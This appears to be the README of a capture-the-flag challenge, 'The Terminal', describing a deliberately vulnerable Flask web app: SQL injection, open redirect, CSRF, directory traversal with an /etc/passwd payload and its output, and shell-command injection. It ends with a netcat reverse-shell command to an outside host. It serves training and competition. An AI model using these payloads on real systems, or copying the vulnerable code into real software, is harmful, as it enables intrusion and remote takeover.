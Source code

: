 The Terminal
---------

Various vulnerabilities in a web application allows an attacker to leak local
files and get code execution through a date to image generator.

# Question Text

```
How long more can you stand it?

http://ctf.pwn.sg:4083
```

*Creator -  amon (@nn_amon)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Vulnerabilities

## SQL Injection 1

There is an insert based SQL injection in `app.py`.

```python
@app.route("/posts/new", methods=["POST"])
def posts_new():
    if 'user' in session:
        if not request.form.get("title") or not request.form.get("body"):
            return make_json_response({"message": "Supply a title and body"}, False)
        db = sqlite3.connect("database.db")
        db.execute("insert into posts values ('%s', '%s', '%s');" % (
            request.form.get("title"), session['user'],
            request.form.get("body")))
        db.commit()
        db.close()
        return make_json_response({"message": "Posted!"})
    else:
        return make_json_response({"message": "You are not logged in"}, False)
```

## Open Redirect 1

There is a vulnerability in which `app.py` allows open redirects.

```python
@app.route("/escape")
def escape():
    """Redirects the user to the escape url"""
    if request.args.get('target'):
        return redirect(request.args.get('target'))
    else:
        return make_json(response([], False))
```

The following command redirects the user to the target.

```
http://localhost:8082/escape?target=https://status.github.com/messages
```

## Cross Site Request Forgery 1

A post can be made through CSRF since there are no CSRF protections enabled on
the web application:

```python
@app.route("/posts/new", methods=["POST"])
def posts_new():
    if 'user' in session:
        if not request.form.get("title") or not request.form.get("body"):
            return make_json_response({"message": "Supply a title and body"}, False)
        db = sqlite3.connect("database.db")
        db.execute("insert into posts values ('%s', '%s', '%s');" % (
            request.form.get("title"), session['user'],
            request.form.get("body")))
        db.commit()
        db.close()
        return make_json_response({"message": "Posted!"})
    else:
        return make_json_response({"message": "You are not logged in"}, False)
```

## Directory Traversal 1

The following code in `app.py` has a directory traversal bug:

```python
@app.route("/file")
def getfile():
    if not request.args.get("filename"):
        return make_json_response({"message": "Need a filename"}, False)
    filecontents = file(request.args.get("filename")).read()
    return make_json_response({"message": filecontents})
```

The following payload triggers the directory traversal:

```
localhost:8082/file?filename=../../../../../etc/passwd
```

The result:

```json
{
  "status": true,
  "result": {
    "message": "root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-timesync:x:100:102:systemd Time Synchronization,,,:\/run\/systemd:\/bin\/false\nsystemd-network:x:101:103:systemd Network Management,,,:\/run\/systemd\/netif:\/bin\/false\nsystemd-resolve:x:102:104:systemd Resolver,,,:\/run\/systemd\/resolve:\/bin\/false\nsystemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:\/run\/systemd:\/bin\/false\n_apt:x:104:65534::\/nonexistent:\/bin\/false\nsyslog:x:105:108::\/home\/syslog:\/bin\/false\ntheterminal:x:1000:1000::\/home\/theterminal:\n"
  }
}
```

## Command Injection 1

There is a vulnerability in which `app.py` renders shell commands as images.

```python
@app.route("/picturise/<what>")
def pictureise(what):
    """Calls a system command and picturises it."""
    georgia_bold = 'fonts/georgia_bold.ttf'
    georgia_bold_italic = 'fonts/georgia_bold_italic.ttf'
    W, H = (400, 100) # image size
    txt = subprocess.check_output(what, shell=True).strip() # text to render
    background = (0,164,201) # white
    fontsize = 14
    font = ImageFont.truetype(georgia_bold_italic, fontsize)
    image = Image.new('RGBA', (W, H), background)
    draw = ImageDraw.Draw(image)
    w, h = font.getsize(txt)
    draw.text(((W-w)/2,(H-h)/2), txt, fill='white', font=font)
    output = StringIO.StringIO()
    image.save(output, format="PNG")
    contents = output.getvalue()
    output.close()
    response = make_response(contents)
    response.headers.set('Content-Type', 'image/png')
    return response
```

To run the command, it is simple:

```
http://localhost:8082/picturise/uname%20-a
```

# Exploit Details

```
http://ctfsf.pwn.sg:4082/picturise/nc%20-e%20%60which%20sh%60%20codesinverse.com%201337
```
